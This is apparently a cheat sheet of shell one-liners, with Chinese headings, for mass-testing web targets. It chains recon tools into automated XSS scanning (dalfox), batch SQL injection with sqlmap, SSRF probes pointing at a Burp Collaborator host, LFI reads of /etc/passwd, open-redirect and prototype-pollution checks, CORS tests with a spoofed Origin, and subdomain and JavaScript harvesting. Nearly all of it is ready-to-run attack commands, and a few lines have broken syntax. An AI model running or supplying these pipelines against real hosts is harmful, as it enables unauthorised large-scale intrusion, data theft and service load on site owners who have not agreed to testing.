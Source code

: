   #### XSS
	cat targets.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
	cat targets.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
  #### 注入
	httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
  #### SSRF
  	findomain -t http://target.com -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
  #### LFI本地文件包含
  	gau http://vuln.target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
  #### 重定向
  	gau http://vuln.target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
  #### 原型链污染
  	subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"
  #### CORS
  	gau http://vuln.target.com | while read url;do target=$(curl -s -I -H "Origin: https://evvil.com" -X GET $url) | if grep 'https://evvil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
  #### 导出JS
  	echo http://target.com | haktrails subdomains | httpx -silent | getJS --complete | tojson | anew JS1
	assetfinder http://vuln.target.com | waybackurls | grep -E "\.json(?:onp?)?$" | anew 
  #### 截图
  	assetfinder -subs-only http://target.com | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @' 
  #### 存活主机和域名
  	subfinder -d http://vuln.target.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
  #### 从Hackerone导出资产
  	curl -sL https://github.com/arkadiyt/bounty-targets-data/blob/master/data/hackerone_data.json?raw=true | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type]